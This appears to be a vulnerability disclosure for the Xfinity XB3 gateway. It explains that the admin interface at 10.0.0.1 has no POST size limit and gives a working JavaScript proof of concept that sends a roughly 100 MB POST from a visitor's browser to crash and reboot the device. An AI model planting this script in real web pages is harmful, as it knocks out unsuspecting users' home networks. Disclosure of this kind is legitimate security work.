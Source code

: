 # Xfinity Gateway XB3 - DoS Via Large POST Request
The administrative interface of Xfinity Gateway model XB3 (and possibly others) does not enforce a max POST request size. Any website is able to send a large POST request to the gateway at `10.0.0.1`. If the request size is large enough, the device will stop responding and reboot, leading to a Denial of Service condition due to memory exhaustion.

## Proof of Concept
The following JavaScript will crash an XB3 gateway if a website visitor stays on the page long enough:

    (() => {
      const xhr = new XMLHttpRequest();
      xhr.open('POST', 'http://10.0.0.1');
      xhr.send('A'.repeat(99999999));
    })();

## Mitigating Factors
During testing it took an average of 80 seconds to post enough data to cause this crash, so a website exploiting this bug would need to convince the user to wait around long enough to finish posting the payload.

## Impact
6.5 - Medium (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:N/A:H)
